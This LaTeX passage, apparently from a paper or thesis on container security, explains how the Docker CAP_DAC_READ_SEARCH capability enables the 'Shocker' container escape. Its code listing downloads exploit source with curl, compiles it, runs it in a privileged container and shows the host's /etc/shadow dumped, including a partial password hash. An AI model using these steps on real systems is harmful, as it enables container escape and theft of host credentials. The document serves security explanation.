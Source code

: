 \subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP DAC READ SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container\cite{Docker-Shocker-Seclists}. A process with \lstinline{CAP_DAC_READ_SEARCH} is able to bruteforce the internal index of files outside of the container. To demonstrate this attack a proof of concept exploit was released\cite{Docker-Shocker}\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\medskip

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}.},captionpos=b]
(host)$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add=CAP_DAC_READ_SEARCH -v /tmp:/tmp busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (i.e. \lstinline{/etc/shadow}).
